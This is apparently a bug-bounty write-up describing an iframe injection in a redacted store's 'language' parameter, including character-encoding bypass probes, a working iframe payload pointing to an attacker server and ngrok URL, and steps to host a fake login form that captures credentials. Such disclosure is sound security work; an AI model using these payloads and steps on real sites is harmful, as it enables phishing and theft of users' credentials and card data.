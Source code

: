 [![Twitter](https://img.shields.io/badge/twitter%20-%231DA1F2.svg?&style=for-the-badge&logo=Twitter&logoColor=white&label=Follow%20%40xbforce)](https://twitter.com/xbforce)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
[![Youtube](https://img.shields.io/badge/Youtube%20-%23FF0000.svg?&style=for-the-badge&logo=YouTube&logoColor=white&label=Subscribe)](http://www.youtube.com/channel/UCadRCMA7BFJ2iwiABKqf0Fg?sub_confirmation=1)


## Account Takeover via iFrame Injection

```
Vulnerable URL: https://store.redacted.com/
Vulnerable Parameter: language=
```

Sometimes you find an XSS vulnerability on a target domain but you cannot inject your javascript codes because the target sanitizes payloads perfectly using black/white lists or stop them from doing their malicious jobs by using WAFs, but there are always different ways to bypass defending mechanisms, and it is only the matter of time and efforts.

Some months ago I was looking for bugs on a very big company’s subdomains, and found nothing after trying different techniques to takeover accounts for four days. Usually if there is a login system and I can signup on the target website I go for account takeover first. I did the same on this target but I wasn’t able to find any way to takeover accounts simply because the company’s security team did its job really great to block all ways to takeover accounts.

After trying account takeover I decided to look for XSS so maybe I can takeover accounts indirectly via an XSS vulnerability. When I work on a target I always run burpsuite first and capture all traffic with this amazing tool. If I need parameters I go to ```Target``` TAB and on the ```Sitemap``` TAB I look at ```Contents``` section, then prioritize URLs based on ```Params```. This is because burpsuite scanner finds some URLs with parameters and if you are only looking for URLs on the ```history``` TAB you may miss some golden ones.

So I tested URLs and tried different techniques manually to get an XSS, but there wasn’t any success. Finally I picked another address which looked like this:

```
https://store.redacted.com/some/dir/store/index.jsp?c=subscribe
```

I changed the value of the above parameter but nothing reflected on the response page. I noticed that other subdomains have a common parameter in their addresses which is ```language=```, however I wasn’t able to get XSS from this parameter on the other subdomains but I decided to give it a try and add this parameter to the targeted URL:

```
https://store.redacted.com/some/dir/store/index.jsp?language=PAYLOADS&c=subscribe
```


**How did I bypass the restrictions?**

I Hardly ever throw ```ready to use payloads``` to my targets, instead, I try to bypass special characters manually by using different characters and different techniques and make a note of them if characters make any change to the special characters or the URL in total:

```
?language=%25%322

?language=%%32%32

?language=%%2522

?language=%00%25%00%32%00%32

?language=%21%22%3c

?language=%40%22%3c

?language=%5c%22%3c

etc
```


After trying many characters I finally found the golden char which was ```%7b``` which is an open curly bracket ```{```.

```
https://store.redacted.com/some/dir/store/index.jsp?language=%7b%22%3exbforce&c=subscribe
```

![response](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/02-escape.png)

<br />
<br />

![escape-url](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/03-escape_url.png)





On some targets you are done when you bypass restrictions and you can inject your payload and execute it easly, but on some other targets like the one that I worked on, it is just the first step of struggles and you have to find a way to bypass other restrictions too.

I injected different javascript and html tags and events but all of them were blocked and I couldn’t execute any XSS payload except ```iframe``` and ```src``` (only if it is inside the iframe tag). Next step was trying to cover the original page with my iframe and its contents, but unfortunately it wasn’t possible and I don’t know why the different values on ```position=```, ```width=``` and ```height=``` didn’t work. The only effective values that worked for me were:

```
{“><iframe src="https://attacker-server.com/" position="fixed" width="100%" height="100%"></iframe>
```



This way I could make a banner at the top of the vulnerable page and show something like login or credit card forms there.

As the website allowed its customers to save their credit card info in their accounts and of course the accounts contained Private Information of the users like ```email address, phone number, home address, credit card info etc```, I decided to create a form with a deceitful gift within the iframe to show that I can capture the victims’ credentials.

![login-form](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/04-login-method1.png)

I also created another page to redirect the victims after submitting the form so that victims get the unfortunate message.

![unfortunate-message](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/05-unfortune-method1.png)

Finally to show how the vulnerability can be exploited I ran my tools and recorded a POC video as well as writing a report containing screenshots.

**Tools**

Ngrok – An easy to use server
Python SimpleHTTPServer.

**Steps to reproduce the exploit**

- Create an index.html file with a form to get username and password of the victim, and redirect them to ```done.html```.
- Create another file named ```done.html``` to show the unfortunate message.
- Make a directory and copy the ```index.html```, ```done.html``` and the ```logo``` file of the target to the directory.

- Run both tools in the same directory where the files are located.

```$ ngrok http 58700```

```$ python -m SimpleHTTPServer 58700```

! Both tools should have the same port number !

- Open the malicious URL as a victim and submit the form.

```
https://store.redacted.com/some/dir/store/index.jsp?language={"><iframe src="https://83c2c8cabcbd.ngrok.io/" position="fixed" width="100%" height="100%" width="inherit" height="inherit" margin="-5" padding="-5"></iframe>&c=subscribe
```

- Check the captured credentials in python SimpleHTTPServer:

![credentials](https://github.com/xbforce/Blog/blob/main/images/account-takeover-via-iframe-injection/06-creds-method1.png)

